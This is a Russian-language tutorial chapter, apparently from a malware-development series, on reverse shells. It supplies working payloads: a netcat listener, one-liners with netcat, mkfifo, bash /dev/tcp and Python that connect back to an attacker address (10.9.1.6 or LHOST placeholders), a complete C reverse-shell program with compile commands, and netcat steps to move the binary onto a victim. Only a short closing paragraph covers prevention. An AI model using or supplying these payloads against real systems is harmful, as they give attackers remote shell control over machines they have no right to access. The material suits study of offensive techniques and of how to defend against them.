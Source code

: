 \newpage
\subsection{3. реверс шелл (обратная оболочка)}

﷽

![reverse shells](./images/4/2021-09-16_11-26.png){height=400px}    

Прежде всего, мы рассмотрим такое понятие, как обратная оболочка (reverse shell), так как это очень важный аспект в разработке вредоносного ПО.

### что такое реверс шелл (обратная оболочка)?

Обратная оболочка (reverse shell), также называемая connect-back shell, — это удаленная оболочка, создаваемая с целевого устройства путем установления соединения с машиной атакующего и запуска целевой оболочки на машине атакующего. Обычно это используется в процессе эксплуатации уязвимости для получения контроля над удаленной машиной.     

![rev shells](./images/4/shells.png)

Обратная оболочка может использовать распространенные исходящие порты, такие как `80, 443, 8080` и другие.    

Обратная оболочка обычно применяется, когда целевая машина жертвы блокирует входящее соединение по определенному порту брандмауэром. Чтобы обойти это ограничение, специалисты Red Team и пентестеры используют обратные оболочки.     

Однако здесь есть один нюанс. Это подвергает сервер управления атакующего риску обнаружения, а сетевые службы мониторинга безопасности могут зафиксировать следы атаки.    

Существует три этапа для получения обратной оболочки.    
Сначала атакующий эксплуатирует уязвимость в целевой системе или сети, которая позволяет выполнить код.    
Затем атакующий настраивает прослушиватель (listener) на своей машине.     
Далее атакующий внедряет обратную оболочку в уязвимую систему для эксплуатации уязвимости.    

Есть еще один нюанс. В реальных кибератаках обратную оболочку можно также получить через социальную инженерию. Например, вредоносное ПО, установленное на локальную рабочую станцию с помощью фишингового письма или вредоносного веб-сайта, может инициировать исходящее соединение с командным сервером и предоставить хакерам возможность обратного соединения.     

![social engineering](./images/4/shells2.png){width="80%"}

Цель этого поста - не эксплуатация уязвимости в целевом хосте или сети, но для понимания достаточно знать что основная идея там заключается в поиске уязвимости, которая может быть использована для выполнения кода.   

В зависимости от установленной на жертве системы и запущенных там сервисов, обратная оболочка может быть разной, например, `php, python, jsp` и т. д.    

***

### listener

Для простоты в этом примере жертва разрешает исходящие соединения на любом порту (по умолчанию правило брандмауэра `iptables`). В нашем случае мы используем `4444` в качестве порта прослушивания. Вы можете изменить его на любой другой порт. Прослушиватель может быть любой программой/утилитой, способной открывать TCP/UDP соединения или сокеты. В большинстве случаев я предпочитаю использовать утилиту `nc` или `netcat`.   

```bash
nc -lvp 4444
```

В этом случае параметры `-l` - слушать, `-v` - подробный вывод и `-p` - порт `4444` на всех интерфейсах. Вы также можете добавить `-n` для работы только с IP-адресами без использования DNS.    

![listener](./images/4/2021-09-11_17-59.png)    

***

### запуск обратной оболочки (примеры)

Для простоты в наших примерах целью является машина с Linux.   
**1. netcat**   
Запуск:
```bash
nc -e /bin/sh 10.9.1.6 4444
```

Где `10.9.1.6` — это IP-адрес машины атакующего, а `4444` — прослушиваемый порт.   

![netcat](./images/4/2021-09-11_18-04.png){width="80%"}

**2. netcat без -e**    

В новых версиях Linux по умолчанию используется традиционный netcat с отключенной опцией `GAPING_SECURITY_HOLE`, что означает отсутствие опции `-e`.

В этом случае на машине жертвы выполните:
```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | 
/bin/sh > /tmp/p 2>&1; rm /tmp/p
```

![netcat without e](./images/4/2021-09-11_18-23.png){width="80%"}

**3. bash**   

Не работает на старых дистрибутивах на базе Debian.   

Запуск:
```bash
bash -c 'sh -i >& /dev/tcp/10.9.1.6/4444 0>&1'
```

![bash rev shell](./images/4/2021-09-11_18-12.png){width="80%"}

**4. python**

Чтобы создать полуинтерактивную оболочку с помощью Python, выполните:
```python
python -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("<LHOST>",<LPORT>));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![python rev shell](./images/4/2021-09-11_18-36.png){width="80%"}

Больше примеров: [github reverse shell cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)    

***

### создание обратной оболочки на C

Моя любимая часть. Так как я пришел в кибербезопасность с бэкграундом разработчика ПО, мне нравится "изобретать велосипед", это помогает лучше понять многие концепции и иногда заглянуть "под капот" многих процессов.    

Как я писал выше, мы будем писать обратную оболочку которую запустим на Linux (целевой хост)   

Создайте файл `shell.c`:
```cpp
#include <stdio.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <unistd.h>

int main () {

  // attacker IP address
  const char* ip = "10.9.1.6";

  // address struct
  struct sockaddr_in addr;
  addr.sin_family = AF_INET;
  addr.sin_port = htons(4444);
  inet_aton(ip, &addr.sin_addr);

  // socket syscall
  int sockfd = socket(AF_INET, SOCK_STREAM, 0);

  // connect syscall
  connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

  for (int i = 0; i < 3; i++) {
    // dup2(sockftd, 0) - stdin
    // dup2(sockfd, 1) - stdout
    // dup2(sockfd, 2) - stderr
    dup2(sockfd, i);
  }

  // execve syscall
  execve("/bin/sh", NULL, NULL);

  return 0;
}
```

Скомпилируем:

```bash
gcc -o shell shell.c -w
```

![c rev shell compile](./images/4/2021-09-11_18-53.png){width="80%"}

*если вы компилируете для 32-bit linux запустите:* ```gcc -o shell -m32 shell.c -w```

Давайте перейдем к передаче файла на машину жертвы. Передача файла считается одним из самых важных шагов, включенных в постэксплуатацию (как я уже писал ранее, мы не рассматриваем шаг эксплуатации).    

Мы воспользуемся инструментом, который известен как "швейцарский нож хакера", netcat.    

на машине жертвы запустите:    
```bash
nc -lvp 4444 > shell
```

а на машине атакующего:    
```bash
nc 10.9.1.19 4444 -w 3 < shell
```

![file transfer via netcat](./images/4/2021-09-11_19-09.png){width="80%"}

проверка:
```bash
./shell
```

![run](./images/4/2021-09-11_19-41.png){width="80%"}

[Source code in Github](https://github.com/cocomelonc/2021-09-11-reverse-shells)

***

### предотвращение

К сожалению, нет способа полностью заблокировать обратные оболочки. Если вы намеренно не используете обратные оболочки для удаленного администрирования, любые обратные соединения оболочки, скорее всего, будут считаться вредоносными. Чтобы ограничить эксплуатацию, вы можете заблокировать исходящие соединения, чтобы разрешить только определенные удаленные IP-адреса и порты для требуемых служб. Этого можно добиться путем помещения сервера в песочницу или запуска сервера в минимальном контейнере.    